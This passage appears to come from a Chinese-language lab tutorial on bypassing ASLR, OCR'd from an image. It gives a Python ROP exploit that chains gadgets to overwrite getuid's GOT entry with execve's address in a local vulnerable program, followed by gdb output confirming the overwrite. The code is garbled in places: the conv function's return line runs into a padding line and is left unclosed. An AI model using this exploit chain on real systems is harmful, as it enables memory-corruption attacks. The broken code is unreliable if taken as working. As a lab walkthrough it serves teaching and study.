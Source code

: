 ```py
def conv(num):
 return struct.pack("<I",num* 268 #Junk
buf += conv(g7) #movb $0x1,0x804a028; add esp, 0x04; pop ebx; pop ebp; ret;
buf += conv(dummy)
buf += conv(dummy)
buf += conv(dummy)
buf += conv(g6) #pop esi; pop edi; pop ebp; ret;
buf += conv(esi) #esi
buf += conv(edi) #edi
buf += conv(dummy)
buf += conv(g5) #pop ebx; ret;
buf += conv(ebx) #ebx
buf += conv(g4) #mov 0x34(%esp),%eax; ...

for num in range(0,11):
 buf += conv(dummy)

buf += conv(g2) #pop ebx; pop ebp; ret;
ebx = 0xaaa99b40 #getuid@GOT-0x5d5b04c4
buf += conv(ebx)
buf += conv(off)
buf += conv(g1) #addl %eax, 0x5D5B04C4(%ebx); ret;
buf += "B" * 4

print "Calling vulnerable program"
call(["./vuln", buf])
```

执行上面的利用代码会生成核心文件。打开核心文件来查看`GOT[getuid]`被`execve`函数地址覆盖（在下面展示）：

```py
$ python oexp.py 
Calling vulnerable program
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA???????????????????????????????????????@???0?????BBBB
Len:376
sploitfun@sploitfun-VirtualBox:~/lsploits/new/aslr/part3$ sudo gdb -q vuln
Reading symbols from /home/sploitfun/lsploits/new/aslr/part3/vuln...(no debugging symbols found)...done.
(gdb) core-file core 
[New LWP 18781]
warning: Can't read pathname for load map: Input/output error.
Core was generated by `./vuln AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'.
Program terminated with signal 11, Segmentation fault.
#0 0x42424242 in ?? ()
(gdb) x/1xw 0x804a004
0x804a004 <getuid@got.plt>: 0xb761a1f0
(gdb) p getuid
$1 = {} 0xb761acc0 
(gdb) p execve
$2 = {} 0xb761a1f0 
(gdb) 
```
